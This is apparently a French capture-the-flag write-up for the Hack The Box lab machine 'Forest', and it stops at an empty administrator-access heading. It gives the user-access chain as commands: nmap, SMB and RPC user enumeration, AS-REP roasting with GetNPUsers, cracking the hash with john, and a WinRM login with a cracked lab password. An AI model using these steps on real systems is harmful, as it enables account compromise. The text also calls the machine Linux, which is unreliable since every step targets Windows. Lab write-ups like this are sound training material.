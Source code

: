 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/admirer2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/admirer3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/admirer4.PNG?raw=true) </br>
![Pic5](../img/admirer5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/admirer6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/admirer7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/admirer8.PNG?raw=true) </br>

# Obtenir un accès administrateur
